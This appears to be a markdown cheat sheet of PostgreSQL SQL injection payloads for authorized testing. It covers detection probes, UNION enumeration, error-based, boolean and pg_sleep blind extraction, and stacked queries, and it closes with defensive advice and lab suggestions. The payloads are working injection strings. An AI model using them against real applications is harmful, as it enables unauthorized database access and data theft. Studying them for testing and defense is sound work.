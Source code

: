 # PostgreSQL — Example SQL Injection Payloads & Notes (Non‑destructive, Educational)

> [!WARNING]
> **Ethics reminder:** The examples in this file are for education and authorized testing only. Do **not** run these payloads against systems you do not own or do not have explicit written permission to test. Use intentionally vulnerable labs or local PostgreSQL instances for practice.

---

## Contents

* Basic detection probes
* UNION-based examples (non-destructive)
* Error-based examples (safe probes)
* Boolean-based blind examples
* Time-based blind examples (`pg_sleep`)
* Stacked-queries and statement behavior in PostgreSQL
* PostgreSQL-specific functions & system catalogs
* Defensive notes specific to PostgreSQL

---

## 1. Basic detection probes

Start with simple probes to see if input affects SQL:

* `'` — single quote to provoke syntax errors.
* `"` — double quote depending on context.
* `1 OR 1=1` — logical manipulation probe.

Example HTTP parameter probe:

```
GET /product?id=1'
```

Look for Postgres errors like `ERROR: syntax error at or near` or `column "..." does not exist`.

---

## 2. UNION-based (non-destructive) examples

Assume an original query: `SELECT id, name, price FROM products WHERE id = 'USER_INPUT'`

### Find column count

Incremental `NULL` approach:

```sql
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

Stop when no column-count error appears.

### Identify display columns

```sql
' UNION SELECT 'C1', 'C2', 'C3' --
```

Observe which markers appear in the page to find reflected columns.

### Non-destructive enumeration examples

After identifying display columns:

```sql
' UNION SELECT NULL, version(), NULL --
' UNION SELECT NULL, current_user, NULL --
' UNION SELECT NULL, current_database(), NULL --
```

These reveal Postgres version, current user, and current database for fingerprinting (lab-only).

---

## 3. Error-based (safe probes)

Trigger syntax or type errors to fingerprint and inspect behavior.

* Single quote: `'`
* Type conversion error example (illustrative):

```sql
' AND 1=(SELECT CAST(current_database() AS INTEGER)) --
```

This may produce an error like `invalid input syntax for integer` revealing context.

Avoid aggressive error-inducing payloads on production systems.

---

## 4. Boolean-based blind examples

Character extraction pattern (Postgres):

```sql
' AND SUBSTRING((SELECT current_user),1,1) = 'p' --
```

Confirm injection with `AND 1=1` / `AND 1=2` before attempting extraction.

Optimizations:

* Narrow character set to speed extraction.
* Use binary search over ASCII ranges where supported.

---

## 5. Time-based blind examples (`pg_sleep`)

Postgres timing function: `pg_sleep(seconds)`

### Simple timing check

```sql
' OR CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

If response time increases by \~5s, the server executed the sleep.

### Character extraction using pg\_sleep

```sql
' OR CASE WHEN SUBSTRING((SELECT current_database()),1,1) = 'p' THEN pg_sleep(5) ELSE pg_sleep(0) END --
```

Repeat tests and average timings to reduce false positives from network variability.

---

## 6. Stacked-queries and statement behavior in PostgreSQL

Postgres supports multiple SQL statements per query string in many contexts, but client libraries may restrict this behavior.

### Safe test for multi-statement support

```sql
' ; SELECT 'X' --
```

If the server executes additional statements, batching is supported — treat this as high risk.

**Warning:** Avoid destructive payloads during discovery.

---

## 7. PostgreSQL-specific functions & system catalogs

* `version()` — Postgres version
* `current_user`, `session_user` — current user names
* `current_database()` — current DB name
* `pg_sleep(seconds)` — timing-based delays
* `pg_read_file` / `pg_ls_dir` — file access (superuser-only)
* `information_schema.tables`, `information_schema.columns`, and `pg_catalog` — metadata repositories (requires read access)
* `string_agg`, `array_to_string`, `encode`/`decode` — useful for constructing payloads

**Note:** Many powerful functions require elevated privileges and are disabled for normal application accounts.

---

## 8. Defensive notes specific to PostgreSQL

> [!NOTE]
> * Use parameterized queries (e.g., `$1` placeholders) to eliminate injection risk.
> * Run the database under minimal-privilege roles; restrict access to powerful functions (`pg_read_file`, etc.).
> * Disable or limit untrusted procedural languages and features when not required.
> * Hide detailed DB errors from end users and log them internally.
> * Monitor for unusual queries against `pg_catalog` or long-running `pg_sleep` invocations.

---

## 9. Where to practice safely

> [!TIP]
> * PortSwigger Academy labs with Postgres targets
> * Local Docker containers running Postgres + intentionally vulnerable web apps
> * OWASP Juice Shop configured against Postgres backends (if available)